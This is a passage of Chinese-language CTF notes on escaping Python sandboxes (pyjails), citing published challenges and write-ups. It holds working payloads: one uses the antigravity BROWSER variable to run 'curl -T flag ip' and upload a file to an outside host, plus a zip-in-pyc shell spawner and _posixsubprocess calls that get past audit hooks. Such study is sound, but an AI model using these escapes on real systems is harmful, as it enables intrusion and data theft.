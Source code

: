    - https://github.com/aparker314159/ctf-writeups/blob/main/AmateursCTF2023/censorships.md ：利用[tadpole operator](https://devblogs.microsoft.com/oldnewthing/20150525-00/?p=45044)(c++里面一个冷门语法，python里也有，作用是返回加上/减去1后的值，但不像`++,--`那样改变原变量的值。`-~y`等同于y+1,`~-y`等同于y-1)
- [Censorship Lite++](https://github.com/les-amateurs/AmateursCTF-Public/tree/main/2023/misc/censorship-lite%2B%2B):泄露flag变量，但是过滤部分字符和符号以及全部数字
    - https://github.com/rwandi-ctf/ctf-writeups/blob/main/amateursctf2023/censorships.md#censorship-lite-1 :过滤掉部分字符后可以利用python对字符串的[转换](https://stackoverflow.com/questions/961632/convert-integer-to-string-in-python)从函数等地方取。
- [Get and set](https://github.com/maple3142/My-CTF-Challenges/tree/master/ImaginaryCTF%202023/Get%20and%20set):能无限次对某个空object使用`pydash.set_`和`pydash.get`，参数无限制，实现rce。总体思路：Get `__builtins__` from `__reduce_ex__(3)[0].__builtins__`, and you can call arbitrary functions using magic methods like `__getattr__` or `__getitem__`
- [You shall not call](https://github.com/ImaginaryCTF/ImaginaryCTF-2023-Challenges/tree/main/Misc/you_shall_not_call),[wp](https://gist.github.com/lebr0nli/eec8f5addd77064f1fa0e8b22b6a54f5)；[You shall not call Revenge](https://github.com/ImaginaryCTF/ImaginaryCTF-2023-Challenges/tree/main/Misc/you_shall_not_call-revenge),[wp](https://gist.github.com/lebr0nli/53216005991d012470c0bde0f38952b1):两个都是有关pickle的的pyjail，用有限的pickle code构造pickle object。前者只需读文件，revenge需要得到rce
- [My Third Calculator](https://ireland.re/posts/TheFewChosen_2023/#my-third-calculator):`__import__('antigravity',setattr(__import__('os'),'environ',{'BROWSER':'/bin/sh -c "curl -T flag ip;exit" #%s'}))`.antigravity是python里一个彩蛋模块，导入它会打开[xkcd](https://xkcd.com/353/)。通过将环境变量browser改为shell命令，就能在导入时执行shell命令而不是打开网页
- `list(open("flag.txt"))`/`str([*open('flag.txt')])`/`open('flag.txt').__next__()`:没有read函数的情况下读取文件。需要在`print(eval(input()))`或者python console的情况下使用。单纯eval是没有输出的。加个print就有输出了：`print(*open("flag.txt"))`
- [PyPlugins](https://blog.maple3142.net/2023/06/05/justctf-2023-writeups/#pyplugins): python是能接受zip file当作input的(参考zipapp)，里面的运作原理和一般zip解压缩很像，就是找zip的end of central directory之类的。另一方面CPython还有个pyc档案包含了一些header和code object，而code object上又会有co_consts的存在。所以如果你有个Python里面有个很长的byte literal包含了一个zip，它编译成pyc之后会直接在里面展开，而此时去执行它的时候CPython反而是会因为那个zip signature而把它误认成zip来执行。可利用此绕过非常严格的opcodes限制。`runpy.run_path(py_compile.compile(path))`
```py
#生成path指向的文件内容
import tempfile
import zipfile
import base64
def create_zip_payload() -> bytes:
    file_name = "__main__.py"
    file_content = b'import os;os.system("/bin/sh")'
    with tempfile.TemporaryFile(suffix=".zip") as f:
        with zipfile.ZipFile(f, "w") as z:
            z.writestr(file_name, file_content)
        f.seek(0)
        return f.read()
temp=f"pwn={create_zip_payload()!r}"
print(base64.b64encode(temp.encode()))
```
- [obligatory pyjail](https://github.com/abhishekg999/CTFWriteups/tree/main/LITCTF/obligatory%20pyjail)
  - 禁止除exec或compile外的[audit events](https://docs.python.org/3/library/audit_events.html)。`__import__('os')`和`__loader__.load_module`不会触发import audit event；`_posixsubprocess.fork_exec`可以在最底层执行exec，不会被audit event捕捉到
  - `__builtins__.__loader__.load_module('_posixsubprocess').fork_exec([b"/bin/cat", b'flag.txt'], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(__import__('os').pipe()), False, False, None, None, None, -1, None)`
  - `__import__("_posixsubprocess").fork_exec(['cat', 'flag.txt'], (b'/bin/cat',), True, (7,), None, None, -1, -1, __import__("os").pipe()[0], 5, -1, -1, __import__("os").pipe()[0], 7, True, False, None, None, None, -1, None)+print(__import__("os").read(4, 1000).decode())`
  - `[lm:=().__class__.__base__.__subclasses__()[104].load_module,p:=__import__("os").pipe,_ps:=lm("_posixsubprocess"),_ps.fork_exec([b"/bin/cat", b"flag.txt"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(p()), False, False, None, None, None, -1, None)]`
- [wow it's another pyjail](https://github.com/abhishekg999/CTFWriteups/tree/main/LITCTF/wow%20its%20another%20pyjail)
  - 有关RestrictedPython的漏洞。可以利用format访问用下划线开头的属性（这类属性正常情况下是被保护的，无法直接访问）
- [Just Another Pickle Jail](https://github.com/project-sekai-ctf/sekaictf-2023/tree/main/misc/just-another-pickle-jail)